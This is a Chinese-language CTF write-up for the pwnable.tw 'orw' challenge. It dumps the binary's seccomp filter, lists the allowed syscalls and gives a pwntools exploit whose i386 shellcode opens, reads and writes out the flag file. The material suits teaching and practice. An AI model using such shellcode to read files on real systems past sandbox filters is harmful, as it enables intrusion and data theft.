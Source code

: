 ## 前言
写着写着。。。发现有师傅已经介绍了seccomp的[相关内容](https://bbs.xdsec.org/d/567-seccomp-2019bytectf-vip)。

## 相关工具
seccomp-tools https://github.com/david942j/seccomp-tools

## orw
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
拽进Ida，根据prctl函数可以确定几个结构体。
```
  qmemcpy(&sock_filter, stru_8048640, 0x60u);
  LOWORD(sfp.len) = 12;
  sfp.filter = &sock_filter;
  prctl(38, 1, 0, 0, 0);                        // prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
  prctl(22, 2, &sfp);                           // prctl(PR_SET_SECCOMP,SECCOMP_MODE_FILTER,&prog);
```

![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct3.png)
![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct1.png)


整个程序就是让我们输入一段shellcode，去打开提示所说的 **/home/orw/flag** 


```
➜  seccomp-tools dump ./orw
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
能用的函数：rt_sigreturn、sigreturn、exit_group、exit、open、read、write

## exp
```python
from pwn import *
p = remote('chall.pwnable.tw',10001)
shellcode = ''
#open(/home/orw/flag,0,0)
shellcode+=asm('mov eax,0x5;push 0x00006761;push 0x6c662f77;push 0x726f2f65;push 0x6d6f682f;mov ebx,esp;int 0x80;')
#read(3,/home/orw/flag,0x30)
shellcode +=asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov edx,0x30;int 0x80;')
#write(1,/home/orw/flag,0x30)
shellcode+=asm('mov eax,0x4; mov ebx,0x1;int 0x80;')
p.recvuntil(':')
p.send(shellcode)
p.interactive()
```

在 http://syscalls.kernelgrok.com/ 可以看到调用号和各寄存器作用